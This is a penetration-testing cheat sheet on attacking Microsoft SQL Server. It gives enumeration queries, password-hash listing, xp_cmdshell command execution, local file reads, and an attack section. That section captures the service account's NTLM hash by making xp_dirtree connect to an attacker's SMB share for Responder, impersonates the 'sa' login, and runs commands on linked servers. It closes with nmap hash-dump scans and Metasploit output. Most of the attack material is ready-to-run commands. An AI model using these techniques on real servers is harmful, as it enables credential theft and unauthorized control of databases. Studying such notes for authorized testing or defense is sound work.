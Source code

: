 # MSSQL

## <mark style="color:yellow;">About</mark>

<mark style="color:red;">**Microsoft SQL (MSSQL)**</mark>**&#x20;is Microsoft's SQL-based&#x20;**<mark style="color:purple;">**relational database**</mark>**&#x20;management system.** It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET. MSSQL have a lot of different targets. Default port is <mark style="color:yellow;">**1433**</mark> and <mark style="color:yellow;">**1434.**</mark> More about MSSQL Hacking you could read here [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

## <mark style="color:yellow;">**Authentication Mods**</mark>

**MSSQL** have 2 authentication mods: <mark style="color:yellow;">**windows authentication mode (default)**</mark> and <mark style="color:yellow;">**mixed**</mark>. Windows authentication mode is often referred as <mark style="color:yellow;">**integrated**</mark> because of high integration with AD and Windows. With this you could authenticate into database automatically if you have right user or member of right group. **Mixed mode** is supporting both **AD/Windows** authentication and **SQL** one.  <mark style="color:yellow;">**If we are specifying domain, it'll use Windows auth, if we don't specify domain, it'll use SQL auth.**</mark> We should use <mark style="color:green;">**`servername\\accountname`**</mark> for domain specification.&#x20;

## <mark style="color:yellow;">Databases</mark>

**MSSQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                         | Description                                                                                                                                                                                            |
| ------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| <mark style="color:green;">**`master`**</mark>   | Tracks all system information for an SQL server instance                                                                                                                                               |
| <mark style="color:green;">**`model`**</mark>    | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database |
| <mark style="color:green;">**`msdb`**</mark>     | The SQL Server Agent uses this database to schedule jobs & alerts                                                                                                                                      |
| <mark style="color:green;">**`tempdb`**</mark>   | Stores temporary objects                                                                                                                                                                               |
| <mark style="color:green;">**`resource`**</mark> | Read-only database containing system objects included with SQL server                                                                                                                                  |

## <mark style="color:yellow;">MSSQL Useful Commands</mark>&#x20;

**HackTricks:** [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#common-enumeration)

| Command                                                                                                                                                                                                                                                                                                                                                               | Description                                                                                  |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- |
| <mark style="color:green;">`impacket-mssqlclient carni17@13.13.13.13`</mark>                                                                                                                                                                                                                                                                                          | Connect to the MSSQL server.                                                                 |
| <mark style="color:green;">`SELECT name FROM master.dbo.sysdatabases;`</mark>                                                                                                                                                                                                                                                                                         | Show all databases                                                                           |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                                                                                                                                                                                                                               | Select one of the existing databases                                                         |
| <mark style="color:green;">`SELECT * FROM databasename.INFORMATION_SCHEMA.TABLES;`</mark>                                                                                                                                                                                                                                                                             | Show all available tables in the selected database                                           |
| <mark style="color:green;">`select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;`</mark> | List users                                                                                   |
| <mark style="color:green;">`select * from <table>;`</mark>                                                                                                                                                                                                                                                                                                            | Show everything in the desired table                                                         |
| <mark style="color:green;">`xp_cmdshell 'whoami'`</mark>                                                                                                                                                                                                                                                                                                              | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ System command execution via **MSSQL** |
| <mark style="color:green;">`SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`</mark>                                                                                                                                                                                                                                  | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                    |

## <mark style="color:yellow;">CMD Interacting</mark>

#### <mark style="color:blue;">Linux</mark>

```bash
sqsh -S 13.13.13.13 -U carni17 -P 'superkek' -h
# We need to use GO for command executon and use each line for each part of command which start with verb
```

```bash
sqsh -S 13.13.13.13 -U SUPERSECRETDOMAIN\\carni17 -P 'superkek' -h 
# or we could use . if we don't know domain name
```

```bash
python3 mssqlclient.py Administrator@13.13.13.13
```

#### <mark style="color:blue;">Windows</mark>

```bash
sqlcmd -S 13.13.13.13 -U carni17 -P superkek123
sqlcmd #If you are already in system
# We need to use GO for command executon and use each line for each part of command which start with verb
```

## <mark style="color:yellow;">Attacks</mark>

### <mark style="color:blue;">**Capture MSSQL Service Hash**</mark>

```sql
EXEC master..xp_dirtree '\\13.13.13.13\amogus\'
OR
EXEC master..xp_subdirs '\\13.13.13.13\amogus\'
# Then use Responder or impacket-smbclient to make a fake server and intercept hash
```

### <mark style="color:blue;">**Impersonating other users**</mark>

1. **Check what users can be impersonated**

<pre class="language-sql"><code class="lang-sql">SELECT distinct b.name
<strong>FROM sys.server_permissions a
</strong>INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
</code></pre>

2. **Check current role and user**

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

3. **Impersonating&#x20;**<mark style="color:green;">**`sa`**</mark>**&#x20;user**

```sql
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

### <mark style="color:blue;">Check linked server</mark>

1. **Identify linked Servers**

```sql
SELECT srvname, isremote FROM sysservers
GO
```

There would be a server list, those with <mark style="color:purple;">**"1"**</mark> is remote, those with <mark style="color:purple;">**"0"**</mark> is linked.

2. **Check rights**

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [13.13.13.13\LINKEDSERVER]
GO
```

3. **Execute commands at linked server**

```sql
EXECUTE('') AT [13.13.13.13\LINKEDSERVER]
GO
```

If you have quotes in command, use double singe quotes for it (<mark style="color:purple;">**''example''**</mark>)

## <mark style="color:yellow;">Tips2Hack</mark>

1. **Nmap MSSQL** Script Scan

```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 13.13.13.13
```

2. **Metasploit** scan. We can user <mark style="color:green;">**`mssql_ping`**</mark> to get more useful info about **MSSQL** server.

```bash
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 13.13.13.13

rhosts => 13.13.13.13

msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 13.13.13.13:       - SQL Server information for 13.13.13.13:
[+] 13.13.13.13:       -    ServerName      = SQL-01
[+] 13.13.13.13:       -    InstanceName    = MSSQLSERVER
[+] 13.13.13.13:       -    IsClustered     = No
[+] 13.13.13.13:       -    Version         = 15.0.2000.5
[+] 13.13.13.13:       -    tcp             = 1433
[+] 13.13.13.13:       -    np              = \\SQL-01\pipe\sql\query
[*] 13.13.13.13:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

